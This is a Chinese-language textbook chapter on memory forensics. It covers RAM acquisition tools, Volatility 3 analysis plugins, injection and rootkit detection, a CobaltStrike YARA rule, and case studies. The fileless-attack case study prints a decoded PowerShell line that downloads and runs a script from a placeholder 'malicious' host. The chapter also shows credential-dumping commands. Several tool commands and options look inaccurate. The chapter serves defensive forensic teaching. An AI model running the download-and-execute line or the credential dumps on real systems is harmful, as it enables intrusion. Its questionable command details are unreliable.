

## 25.2 内存取证技术

内存取证（Memory Forensics / Live RAM Forensics）是数字取证中最具技术深度和实战价值的领域之一。与磁盘取证不同，内存取证针对的是计算机运行时的易失性数据——进程、网络连接、加密密钥、剪贴板内容、解密的文件内容等——这些信息在系统关机或重启后永久消失。掌握内存取证技术，意味着能在攻击者正在运行的系统中捕捉到磁盘上永远找不到的证据。



---

### 25.2.1 内存取证的理论基础

#### 为什么需要内存取证

传统的磁盘取证只能看到持久化存储中的内容，但在以下场景中，内存取证是不可替代的：

| 场景 | 磁盘取证能做什么 | 内存取证能做什么 |
|------|-----------------|-----------------|
| **磁盘加密（BitLocker/FileVault）** | 看到加密后的数据块，无法读取 | 捕获解密后的密钥和挂载后的文件系统 |
| **无文件恶意软件（Fileless Malware）** | 无法检测（没有文件落地） | 检测内存中的shellcode和进程注入 |
| **加密通信** | 只能看到加密包 | 捕获解密的通信内容和会话密钥 |
| **运行时行为** | 只能看到静态文件 | 看到完整的进程树、网络连接和动态行为 |
| **密码与凭证** | 只能看到哈希值（有时） | 直接捕获明文密码、NTLM哈希、Kerberos票据 |

一个著名的案例是 2017 年的 NotPetya 攻击：攻击者使用 Mimikatz 从内存中提取域管理员凭证，然后横向移动到整个内网。事后磁盘分析只能看到加密后的文件，而内存转储中可以捕获到攻击进行中的秘密工具、网络连接和攻击链的实时状态。

#### 内存管理原理

理解操作系统如何管理内存，是内存取证的基础。现代操作系统都采用**虚拟内存（Virtual Memory）**机制：

1. **虚拟地址空间**：每个进程拥有独立的 4GB（32位）或 128TB（64位 Windows）虚拟地址空间，分为用户态（User Mode）和内核态（Kernel Mode）两部分
2. **页表（Page Table）**：操作系统通过页表将虚拟地址映射到物理地址。页表本身也存储在内存中，可以被取证工具读取
3. **页面文件/交换空间**：当物理内存不足时，操作系统将部分内存写入磁盘上的页面文件（Windows 的 pagefile.sys）或交换分区（Linux swap）。这意味着页面文件中也可能包含证据
4. **内存映射文件（Memory-Mapped Files）**：可执行文件和 DLL 被加载到内存时，以映射的方式存在。分析这些映射可以发现隐藏的代码

#### 易失性层级

内存取证的关键在于**数据获取的优先级**。不同类型的数据在断电后的存活时间不同：

- **L1/L2 CPU 缓存**（纳秒级）：寄存器中的数据，断电即失，无法获取
- **物理内存 RAM**（秒级到分钟级）：正常关机后，DDR4/DDR5 内存中的数据通常能保留数秒到数十秒
- **页面文件 pagefile.sys**（持久化）：Windows 系统将内存数据换出到磁盘，即使关机也保留
- **休眠文件 hiberfil.sys**（持久化）：休眠时将整个内存写入磁盘，可从中恢复大量信息
- **核心转储 crash dump**（持久化）：系统崩溃时写入的 .dmp 文件，可作取证分析

> **经验法则**：如果可能，优先获取物理内存转储（最完整），其次可以收集页面文件和休眠文件作为补充。虚拟机环境中可以直接获取 .vmem 或 .vmsn 文件。

---

### 25.2.2 内存获取技术

#### Windows 系统内存获取

Windows 有最丰富的内存获取工具生态，选择取决于目标系统的可用工具和权限。

**WinPmem（推荐）**

WinPmem 是 Rekall 项目的开源内存获取工具，最新版本 winpmem_mini_x64 轻量且高效：

```bash
# 基本用法（输出原始格式）
winpmem_mini_x64.exe memory.raw

# 输出为 AFF4 格式（支持压缩和元数据）
winpmem_mini_x64.exe --format aff4 memory.aff4

# 分卷输出（大内存系统避免单文件过大）
winpmem_mini_x64.exe --volume-size 2048 memory.raw

# 仅获取页面文件
winpmem_mini_x64.exe --pagefile-only pagefile_dump.raw
```

WinPmem 的优势在于：开源、支持 AFF4 格式（可压缩、可验证完整性）、支持分卷、可获取页面文件。截至 2025 年，WinPmem 仍然是 Windows 内存获取的首选工具。

**DumpIt（MoonSols Windows Memory Toolkit）**

DumpIt 是商业工具，但提供了极简的交互界面：

```bash
# 直接运行即可获取完整内存（交互模式）
DumpIt.exe

# 安静模式（无需确认）
DumpIt.exe /quiet

# 指定输出文件路径
DumpIt.exe /output:D:\forensics\memory.raw
```

DumpIt 的优势：使用极简单、支持所有 Windows 版本（WinXP 到 Win11）、兼容性好。劣势：闭源商业工具。

**FTK Imager（命令行模式）**

AccessData 的 FTK Imager 提供了图形和命令行两种模式：

```bash
# 获取物理内存
ftkimager.exe \\.\PhysicalMemory memory.aff4

# 同时获取页面文件和休眠文件
ftkimager.exe pagefile.sys pagefile.aff4
ftkimager.exe hiberfil.sys hibernate.aff4
```

**其他工具**

- **Magnet RAM Capture**：免费，图形界面，输出 RAW 格式，适合快速取证
- **Belkasoft Live RAM Capturer**：免费，驱动级获取，支持 64 位系统
- **RamMap（Sysinternals）**：不获取转储，但可查看物理内存使用分布

#### Linux 系统内存获取

Linux 内存获取比 Windows 复杂，因为 `/dev/mem` 在现代内核中默认被限制访问。

**LiME（Linux Memory Extractor）—— 推荐首选**

LiME 是专门为取证设计的内核模块，支持输出多种格式，并且**不会在内核内存中留下完整的注册痕迹**（取证友好）：

```bash
# 下载源码并编译
git clone https://github.com/504ensicsLabs/LiME.git
cd LiME/src
make

# 加载内核模块获取内存
insmod lime-<version>.ko "path=/evidence/memory.lime format=lime"

# 使用 raw 格式（兼容性更好但文件更大）
insmod lime-<version>.ko "path=/evidence/memory.raw format=raw"

# 使用 padded 格式（每个物理地址都保持偏移对齐）
insmod lime-<version>.ko "path=/evidence/memory.padded format=padded"
```

LiME 支持三种格式：
- **lime**：LiME 原生格式，带元数据头，Volatility 直接支持
- **raw**：原始物理内存，与其他工具兼容性最好
- **padded**：填充格式，保留完整的物理地址空间

**AVML（Acquiring Volatile Memory for Linux）**

微软开源的工具，无需内核模块编译，使用 /proc/kcore 获取内存：

```bash
# 基本用法
./avml /evidence/memory.lime

# 压缩输出
./avml --compress /evidence/memory.lime.xz

# 创建哈希文件（验证完整性）
./avml --output-hashes /evidence/memory.lime
```

AVML 的优势在于不需要编译内核模块，适合在受限环境中快速使用。但需要 root 权限，且依赖 /proc/kcore 的可用性。

**fmem（另一种选择）**

fmem 是一个简单的内核模块，提供对物理内存的 `/dev/fmem` 访问：

```bash
# 编译安装
make
insmod fmem.ko

# 使用 dd 读取
dd if=/dev/fmem of=/evidence/memory.raw bs=1M

# 清理
rmmod fmem
```

**Linux 获取注意事项**

1. **内核版本匹配**：LiME 模块必须与目标系统的内核版本完全匹配，建议在有相同内核的机器上预编译或在目标机器上现场编译
2. **磁盘空间**：内存转储文件大小等于或略大于物理内存大小（8GB RAM → ~8GB 文件）
3. **时间影响**：LiME 获取过程通常需要 30 秒到几分钟，这段时间系统仍在运行，部分内存内容可能已发生变化
4. **避免污染**：将内存转储写入外部存储（USB 或网络挂载），不要写入被取证的本地磁盘

#### macOS 系统内存获取

macOS 由于系统完整性保护（SIP）的限制，内存获取比 Windows/Linux 更困难。

**OSXPmem（Rekall 项目的 macOS 版）**

```bash
# 安装
pip install osxpem

# 获取内存（需要 root 权限，可能需要在恢复模式中禁用 SIP）
sudo osxpem macos_memory.raw

# 指定格式
sudo osxpem --format aff4 macos_memory.aff4
```

**Mac Memory Reader（已停止维护但仍可用）**

对较老版本的 macOS（10.13 之前）仍能使用。对于现代 macOS（10.14+），主要取决于能否在启动过程中加载未签名的内核扩展。

**macOS 获取的关键限制**
- **SIP（System Integrity Protection）**：在 macOS 10.14+ 中，即使有 root 权限也无法直接读取物理内存。必须在恢复模式中使用 `csrutil disable` 禁用 SIP
- **T2 芯片/M1/M2 芯片**：Apple Silicon 的架构更为封闭，传统的内存获取方法基本失效。目前唯一可靠的方法是使用 macOS 的崩溃转储（panic dump）或虚拟机快照
- **替代方案**：对于 Apple Silicon Mac，可以考虑获取 **休眠镜像** `/private/var/vm/sleepimage` 作为替代

#### 虚拟机与云环境内存获取

虚拟化环境为内存取证提供了独特的便利：

**VMware**

```bash
# 挂载虚拟机后，直接访问 .vmem 和 .vmsn 文件
# .vmem = 虚拟机的物理内存镜像
# .vmsn = 虚拟机快照（包含内存状态）
```

VMware 的 .vmem 文件本身就是标准的 RAW 格式内存转储，Volatility 可以直接分析。获取方式：复制虚拟机关闭状态下的 .vmem 文件，或使用 VMware VDDK（Virtual Disk Development Kit）在虚拟机运行时创建快照。

**Hyper-V**

```bash
# 使用 Hyper-V 的运行时内存导出功能
# PowerShell:
Get-VM -Name "TargetVM" | Export-VMSnapshot -Path "D:\exports\" -CaptureLiveMemory
```

**云环境（AWS/GCP/Azure）**

- **AWS Nitro 实例**：没有直接访问物理内存的方式，但可以通过 **SSM Run Command** 或 **内存转储脚本** 在实例内部获取
- **Google Cloud Shielded VMs**：类似限制，需要实例内部工具
- **Azure 可信虚拟机**：可以使用 Azure 的内存取证功能（需企业授权）

#### 完整性验证

获取内存转储后，第一时间计算哈希值：

```bash
# Windows
certutil -hashfile memory.raw SHA256 > memory.raw.sha256

# Linux
sha256sum memory.raw > memory.raw.sha256

# AFF4 格式自动包含完整性校验信息
```

在法庭呈现时需要链上保管（Chain of Custody），记录：谁、何时、在哪个系统上、用什么工具获取了内存转储。

---

### 25.2.3 Volatility 3 深度解析

Volatility 是内存取证领域事实上的标准工具。Volatility 3 是 Python 3 重写的版本，相比 Volatility 2 有重大改进。

#### Volatility 2 vs Volatility 3 对比

| 特性 | Volatility 2 | Volatility 3 |
|------|-------------|-------------|
| **Python 版本** | Python 2（已停止维护） | Python 3（持续维护） |
| **配置文件** | 需要手动指定 profile（操作系统版本） | 自动检测操作系统和版本 |
| **插件架构** | 基于类的 plugin 系统 | 简化的 plugin 接口，更易扩展 |
| **Linux/macOS 支持** | 有限，依赖 profile | 原生支持，自动适配 |
| **YARA 集成** | 需要额外配置 | 内置 YARA 扫描 |
| **符号表** | 需要为每个操作系统版本生成 | 提供官方符号表，自动下载 |
| **性能** | 单线程 | 多线程优化 |

#### 安装与配置

```bash
# 推荐从 PyPI 安装
pip3 install volatility3

# 安装后验证
vol -h

# 首次使用会提示下载符号表
# 也可手动下载
vol -f memory.dmp windows.info

# 查看可用插件
vol -f memory.dmp -h
```

#### 插件分类与使用详解

Volatility 3 的插件按模块组织，每个插件都有特定的用途。以下按分析场景分类讲解。

##### 系统基本信息

```bash
# 查看内存镜像的基本信息（操作系统版本、内核地址、时间等）
vol -f memory.dmp windows.info

# 输出示例：
# Variable        Value
# Kernel Base     0xf8000260a000
# DTB             0x1aa000
# KdDebuggerDataBlock 0xf80002754180
# Number of Processors  4
# ImageFileName   WIN10-x64
# SystemTime      2025-06-15 14:32:18
```

`windows.info` 是所有分析的起点。Kernel Base 是内核加载的基地址，DTB（Directory Table Base）是页表目录的物理地址，这两个值是其他分析的基础。

##### 进程分析

```bash
# 列出活跃进程（基于进程结构体遍历）
vol -f memory.dmp windows.pslist

# 以树形结构显示进程关系（直观查看父子关系）
vol -f memory.dmp windows.pstree

# 通过多种方法检测隐藏进程（对比 EPROCESS 链表扫描和 PspCidTable 扫描）
vol -f memory.dmp windows.psscan

# 查看进程的命令行参数
vol -f memory.dmp windows.cmdline

# 查看环境变量（可能泄露敏感信息）
vol -f memory.dmp windows.envars

# 列出进程加载的 DLL
vol -f memory.dmp windows.dlllist

# 查看进程句柄表（打开的文件、注册表键、同步对象）
vol -f memory.dmp windows.handles
```

**进程分析的核心方法论：**

1. 先运行 `windows.pstree` 建立完整的进程树，了解哪些进程是正常启动的、哪些是异常的
2. 对比 `windows.pslist` 和 `windows.psscan` 的结果——如果某个进程只在 psscan 中出现，说明它被 Rootkit 隐藏了（典型的恶意行为）
3. 对可疑进程运行 `windows.cmdline` 检查命令行参数，异常参数（如 PowerShell 中的 Base64 编码脚本）通常是攻击迹象
4. 使用 `windows.dlllist` 查看可疑进程加载了哪些 DLL，异常路径（如从临时文件夹加载）表明存在 DLL 劫持

**常见异常进程模式：**

- `svchost.exe` 数量异常（正常 Windows 10 约 30-50 个，大量增加可能被利用）
- `powershell.exe` 或 `cmd.exe` 以长 Base64 参数运行
- 从 `%TEMP%` 或 `%APPDATA%` 路径启动的进程
- 父进程为资源管理器但子进程是恶意工具

##### 网络连接分析

```bash
# 扫描网络连接和开放端口（Volatility 3 推荐）
vol -f memory.dmp windows.netscan

# 查看网络相关的内核对象
vol -f memory.dmp windows.netstat
```

`windows.netscan` 比 `windows.netstat` 更可靠，因为它直接扫描网络结构体而非遍历链表，能发现被隐藏的连接。输出包括：本地地址/端口、远程地址/端口、进程 PID、连接状态（ESTABLISHED/LISTEN/CLOSE_WAIT 等）。

**分析要点：**

- 关注**外部连接**——特别是目的 IP 在恶意 IP 情报库中的连接
- 检查**监听端口**——攻击者经常在受感染系统上开后门端口
- 分析**关联进程**——将异常的远程连接关联到具体进程

##### 文件系统扫描

```bash
# 扫描内存中的文件对象
vol -f memory.dmp windows.filescan

# 使用正则过滤特定文件
vol -f memory.dmp windows.filescan | grep -iE "\.exe|\.dll|\.ps1|\.bat"

# 恢复/提取文件内容到磁盘
vol -f memory.dmp windows.dumpfiles --virtaddr 0xfa800236a6b0

# 批量提取指定 PID 的所有可写区域
vol -f memory.dmp windows.dumpfiles --pid 1234

# 列出内存映射文件
vol -f memory.dmp windows.memmap --pid 1234
```

`windows.filescan` 扫描内存中所有文件对象（\File\*），可以找到磁盘上已删除但在内存中仍有引用的文件。这对于恢复临时文件、攻击工具特别有用。

##### 注册表分析

```bash
# 列出注册表 HIVE 及其在内存中的位置
vol -f memory.dmp windows.registry.hivelist

# 读取注册表键值
vol -f memory.dmp windows.registry.printkey --key "ControlSet001\Control\ComputerName\ComputerName"

# 打印用户最近运行的程序（MRU）
vol -f memory.dmp windows.registry.printkey --key "Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU"

# 查看自动启动项（持久化机制）
vol -f memory.dmp windows.registry.printkey --key "Software\Microsoft\Windows\CurrentVersion\Run"

# 查看服务
vol -f memory.dmp windows.registry.printkey --key "SYSTEM\CurrentControlSet\Services"
```

注册表分析对追踪攻击持久化至关重要。攻击者经常在 `Run` 键、`RunOnce` 键或服务注册表中设置自启动。

##### 凭证提取

```bash
# 从内存中提取用户密码哈希（NTLM）
vol -f memory.dmp windows.hashdump

# 提取缓存的域凭证（域环境）
vol -f memory.dmp windows.lsadump

# 提取 Kerberos 票据
vol -f memory.dmp windows.kernel.cmdline  # 无直接插件，需通过其他方法
```

需要注意的是，`windows.hashdump` 提取的是 NTLM 哈希，而不是明文密码。但使用 Mimikatz 技术提取的 LSASS 进程内存中包含明文密码。

##### 剪贴板与用户活动

```bash
# 提取剪贴板内容
vol -f memory.dmp windows.clipboard

# 打印键盘输入（如果安装了键盘记录器）
# 无直接插件，需要手动分析

# 查看用户登录会话
vol -f memory.dmp windows.sessions
```

某次真实取证中，调查人员从剪贴板提取到了攻击者复制粘贴的一个比特币地址，最终追踪到了勒索软件支付链路。

#### MemProcFS — 文件系统式分析

除了 Volatility，**MemProcFS** 是一个创新的工具，它以文件系统的形式挂载内存转储：

```bash
# 挂载内存转储为文件系统
./memprocfs -device memory.dmp -mount /mnt/memory

# 现在可以像浏览普通文件一样浏览内存中的信息
ls /mnt/memory/pid/
cat /mnt/memory/root/Windows/System32/drivers/etc/hosts
```

MemProcFS 的优势在于不需要记住大量命令，通过目录结构即可获取所需信息。它非常适合取证调查中的快速初步分析。

---

### 25.2.4 恶意代码检测技术

内存取证在恶意代码检测中的独特价值在于：即使恶意代码是**无文件的**（没有可执行文件落地），它在执行时也必须在内存中留下痕迹。

#### 进程注入检测

```bash
# 检测各类进程注入技术
vol -f memory.dmp windows.malfind

# 检测 APC 注入
vol -f memory.dmp windows.apihooks

# 检测函数挂钩
vol -f memory.dmp windows.apihooks --pid 1234
```

`windows.malfind` 是检测恶意代码的核心插件。它：
1. 扫描进程的虚拟地址空间，寻找具有 RWX（可读写执行）权限的内存页
2. 标记包含可疑内容（如 shellcode）的页面
3. 输出可疑内存页的十六进制转储和可能的反汇编

**常见的注入技术层级：**

| 注入技术 | 原理 | 检测方法 |
|---------|------|---------|
| **CreateRemoteThread** | 在目标进程中创建远程线程 | malfind 检测到异常的 RWX 页面 |
| **Process Hollowing** | 用恶意代码替换合法进程的代码段 | psscan + malfind 对比 |
| **APC Injection** | 利用异步过程调用执行 shellcode | apihooks 检测 APC 队列异常 |
| **Reflective DLL Injection** | 从内存加载 DLL 而不调用 LoadLibrary | dlllist 无法列出，handles 可能暴露 |
| **AtomBombing** | 利用全局原子表注入 | 高级分析（需要结合调试） |

#### Rootkit 与内核级隐藏

```bash
# 检测 SSDT（System Service Dispatch Table）钩子
vol -f memory.dmp windows.ssdt

# 检测内核回调（回调是 Rootkit 常用的隐藏机制）
vol -f memory.dmp windows.callbacks

# 检测驱动列表
vol -f memory.dmp windows.driverscan

# 检测被隐藏的驱动
vol -f memory.dmp windows.modulescan
```

**SSDT Hooking 原理**：系统调用表是内核从用户态切换到内核态的路由表。Rootkit 修改这个表的条目，劫持系统调用。例如，修改 `NtOpenProcess` 的指向，使其在打开被保护进程时返回"访问被拒绝"。`windows.ssdt` 对比内存中 SSDT 的实际地址与从内核符号文件获取的预期地址，发现不一致即判定为钩子。

**检测隐藏驱动的黄金法则**：对比 `windows.driverscan`（遍历驱动链表）和 `windows.modulescan`（扫描内核模块对象）的结果。隐藏驱动仅出现在 modulescan 中。

#### YARA 规则集成

Volatility 3 内置了 YARA 扫描能力，可以将自定义恶意软件特征规则应用于内存转储：

```bash
# 对整个内存镜像进行 YARA 扫描
vol -f memory.dmp windows.yarascan --yara-rules malware.yara

# 对特定进程进行扫描
vol -f memory.dmp windows.yarascan --yara-rules malware.yara --pid 1234

# 使用内置规则
vol -f memory.dmp windows.yarascan --yara-string "CobaltStrike"
```

YARA 规则示例（检测 CobaltStrike Beacon）：

```yara
rule CobaltStrike_Beacon {
    meta:
        description = "Detects CobaltStrike beacon in memory"
        author = "Memory Forensics Team"
        date = "2025-06-01"
    strings:
        $beacon = { 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 }
        $namedpipe = "\\\\.\\msagent_" nocase
        $mssign = { 4D 53 46 ?? 12 34 }
    condition:
        any of them
}
```

---

### 25.2.5 实战案例分析

#### 案例一：勒索软件内存特征分析

**场景**：某企业服务器被勒索软件攻击，所有文件被加密。攻击后立即获取了内存转储。

**分析步骤**：

```bash
# 1. 查看系统信息和异常进程
vol -f memory.dmp windows.info
vol -f memory.dmp windows.pstree

# 发现：w.exe 进程是可疑的，父进程为 explorer.exe 但路径为 %TEMP%
# 2. 查看该进程的命令行
vol -f memory.dmp windows.cmdline --pid 4521
# 输出：C:\Users\user\AppData\Local\Temp\w.exe -encrypt

# 3. 查看网络连接
vol -f memory.dmp windows.netscan | grep 4521
# 发现：对外 C2 服务器 185.xxx.xxx.xxx:443 的连接

# 4. 提取勒索软件进程的代码
vol -f memory.dmp windows.dumpfiles --pid 4521

# 5. 扫描 YARA 规则
vol -f memory.dmp windows.yarascan --yara-rules ransomware.yara
```

**发现**：提取的进程内存中找到了勒索信模板和 C2 服务器 IP，结合 VT（VirusTotal）关联到已知勒索软件家族。

#### 案例二：无文件 PowerShell 攻击

**场景**：SOC 检测到可疑的 PowerShell 执行事件，但磁盘上未发现恶意文件。

```bash
# 1. 列出所有 PowerShell 进程
vol -f memory.dmp windows.pslist | grep -i powershell

# 2. 检查命令行参数
vol -f memory.dmp windows.cmdline | grep -i powershell
# 发现：powershell.exe -enc SQBFAFgAIABO...（Base64 编码的脚本）

# 3. 解码 Base64
echo "SQBFAFgAIABO..." | base64 -d
# 输出：IEX (New-Object Net.WebClient).DownloadString('http://malicious/payload.ps1')

# 4. 使用 malfind 检测注入
vol -f memory.dmp windows.malfind --pid 1234

# 5. 提取 PowerShell 进程的特定内存区域
vol -f memory.dmp windows.dumpfiles --pid 1234
```

**关键发现**：虽然攻击脚本没有写入磁盘，但 PowerShell 在内存中执行脚本的完整代码仍然可以被提取出来。即使脚本已经被执行完毕，内存中保留的部分数据仍可恢复。在内存中提取到了下载的 payload.ps1 的内容、内存中加载的反射式 DLL、以及 C2 通信的端口信息。

---

### 25.2.6 常见误区与最佳实践

#### 误区一：获取内存转储后系统就可以关机了

**错误**：拿到内存转储后就关闭分析目标系统。
**正确**：获取内存转储后，仍需保留系统运行状态（如果可能）。页面文件、休眠文件、事件日志等辅助证据也需要同步收集。另外，如果第一份转储有损坏，需要第二份转储作为备用。

#### 误区二：Volatility 能提取所有数据

**错误**：认为 Volatility 无所不能，可以恢复所有内存数据。
**正确**：Volatility 依赖于对操作系统数据结构的理解。如果操作系统打了新的补丁、或使用了不常见的版本，Volatility 的符号表可能不匹配，导致分析失败。这种情况下需要：
1. 检查 `windows.info` 输出的版本信息
2. 使用 `--profile` 参数强制指定 profile
3. 考虑使用 MemProcFS 作为替代分析工具

#### 误区三：RAW 格式总是最好的

**错误**：RAW 格式最简单，所以总是最好。
**正确**：AFF4 格式提供压缩（通常可节省 30-50% 存储空间）、元数据嵌入、完整性校验等功能。在存储成本高或需要长期存档的场景中，AFF4 更优。但 RAW 格式兼容性最广。

#### 误区四：内存取证可以完全自动化

**错误**：使用工具跑一遍命令就能得到完整的分析报告。
**正确**：自动化工具可以辅助初步筛选，但真正有价值的发现需要人工分析。调查人员需要理解攻击场景、上下文和业务逻辑，才能准确区分正常行为和恶意行为。

#### 最佳实践清单

1. **获取前准备**：确认工具兼容性、准备足够存储空间、记录系统运行状态
2. **获取时注意**：最小化对目标系统的干扰、优先获取最易失的数据、记录获取过程
3. **获取后验证**：计算哈希、链上保管记录、备份原始转储（只分析副本）
4. **分析时**：从基本信息开始（osinfo/pslist）、建立正常基线再找异常、交叉验证发现（多种插件、多种工具）、记录分析过程和发现

---

### 25.2.7 进阶技术与扩展方向

#### 时间线分析（Timeline Analysis）

```bash
# Volatility 提供了一个强大的时间线功能
vol -f memory.dmp windows.timeliner

# 输出按时间排序的所有事件
# 进程创建、网络连接、注册表变更等
# 可用于重建攻击时间线
```

时间线分析可以帮助确定**攻击时间窗口**：找到第一个可疑进程的创建时间，往前追溯到初始访问，往后追踪到横向移动和数据泄露。

#### Pool 标签扫描（Pool Tag Scanning）

Windows 内核使用池分配器管理内存。每个内核分配的内存块都有一个 **Pool Tag**（4 字节 ASCII 标识），可用于识别特定的内核对象：

```bash
# 扫描特定的 Pool Tag
vol -f memory.dmp windows.poolscan --tag Proc
# Proc = 进程对象，Thre = 线程对象，File = 文件对象
```

高级攻击者可能会使用 Pool Tag 混淆来隐藏恶意组件，扫描工具需要同时检查 Tag 和目标实际内容是否匹配。

#### 跨平台取证脚本

针对大型调查，可以编写自动化脚本进行批量分析：

```python
#!/usr/bin/env python3
"""自动化内存取证分析脚本"""
import subprocess
import json
import os

MEMORY_FILE = "memory.dmp"
OUTPUT_DIR = "analysis_output"
PLUGINS = ["windows.info", "windows.pstree", "windows.pslist",
           "windows.netscan", "windows.malfind", "windows.ssdt",
           "windows.hashdump", "windows.clipboard"]

os.makedirs(OUTPUT_DIR, exist_ok=True)

for plugin in PLUGINS:
    output_file = os.path.join(OUTPUT_DIR, f"{plugin.replace('.', '_')}.txt")
    cmd = f"vol -f {MEMORY_FILE} {plugin}"
    with open(output_file, 'w', encoding='utf-8') as f:
        subprocess.run(cmd.split(), stdout=f, stderr=subprocess.PIPE)
    print(f"[+] {plugin} -> {output_file}")
```

#### 创新方法：机器学习辅助内存分析

近年来，ML/AI 辅助内存分析成为研究热点。典型应用包括：
- 使用 CNN 识别恶意内存页的字节级特征
- 使用 NLP 从命令行参数中检测异常模式
- 无监督学习聚类进程行为（发现离群值）

目前最成熟的是 YARA 规则辅助生成——通过分析已知恶意家族的内存特征，自动生成检测规则。

#### 内存取证的演进方向

| 技术演进 | 当前状态 | 未来方向 |
|---------|---------|---------|
| 获取方式 | 内核模块 / /proc/kcore | 硬件级内存获取（Intel VT-x / AMD SVM） |
| 分析效率 | 人工分析为主 | AI 辅助自动化分析 |
| 覆盖系统 | Windows 为主 | macOS (Apple Silicon)、容器、嵌入式 |
| 反取证对抗 | ssdt/apihooks | Kernel DP (Data Protection)、VBS (Virtualization-based Security) |

随着操作系统安全机制的增强（如 Windows 的 Virtualization-based Security、macOS 的 SIP、Linux 的 Kernel Lockdown），内存取证面临着新的挑战和机遇。取证人员需要持续跟踪操作系统更新，及时更新工具和知识体系。

---

> **本章总结**：内存取证是数字取证中最"实时"的技术分支。从理解操作系统内存管理原理开始，掌握 WinPmem、LiME 等获取工具，熟练运用 Volatility 3 各插件进行分析，结合恶意代码检测和时间线重建，就能在内存的"微缩世界"中还原攻击全貌。本章内容覆盖了从入门到进阶的核心知识体系，但实践中仍需结合具体场景不断积累经验——每一个内存转储背后，都可能隐藏着解开整个案件的关键线索。